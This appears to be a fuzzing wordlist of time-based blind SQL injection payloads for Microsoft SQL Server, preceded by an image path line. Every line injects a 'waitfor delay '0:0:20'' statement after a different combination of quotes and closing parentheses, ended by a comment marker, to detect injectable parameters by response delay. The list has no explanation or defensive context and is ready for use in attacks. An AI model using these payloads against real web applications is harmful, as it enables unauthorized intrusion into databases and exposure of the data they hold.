      waitfor delay '0:0:20' /* 
     waitfor delay '0:0:20' --
    ' waitfor delay '0:0:20' /* 
    ' waitfor delay '0:0:20' --
    " waitfor delay '0:0:20' /* 
    " waitfor delay '0:0:20' --
    ) waitfor delay '0:0:20' /* 
    ) waitfor delay '0:0:20' --
    )) waitfor delay '0:0:20' /* 
    )) waitfor delay '0:0:20' --
    ))) waitfor delay '0:0:20' /* 
    ))) waitfor delay '0:0:20' --
    )))) waitfor delay '0:0:20' /* 
    )))) waitfor delay '0:0:20' --
    ))))) waitfor delay '0:0:20' --
    )))))) waitfor delay '0:0:20' --
    ') waitfor delay '0:0:20' /* 
    ') waitfor delay '0:0:20' --
    ") waitfor delay '0:0:20' /* 
    ") waitfor delay '0:0:20' --
    ')) waitfor delay '0:0:20' /* 
    ')) waitfor delay '0:0:20' --
    ")) waitfor delay '0:0:20' /* 
    ")) waitfor delay '0:0:20' --
    '))) waitfor delay '0:0:20' /* 
    '))) waitfor delay '0:0:20' --
    "))) waitfor delay '0:0:20' /* 
    "))) waitfor delay '0:0:20' --
    ')))) waitfor delay '0:0:20' /* 
    ')))) waitfor delay '0:0:20' --
    ")))) waitfor delay '0:0:20' /* 
    ")))) waitfor delay '0:0:20' --
    '))))) waitfor delay '0:0:20' /* 
    '))))) waitfor delay '0:0:20' --
    "))))) waitfor delay '0:0:20' /* 
    "))))) waitfor delay '0:0:20' --
    ')))))) waitfor delay '0:0:20' /* 
    ')))))) waitfor delay '0:0:20' --
    ")))))) waitfor delay '0:0:20' /* 
    ")))))) waitfor delay '0:0:20' --

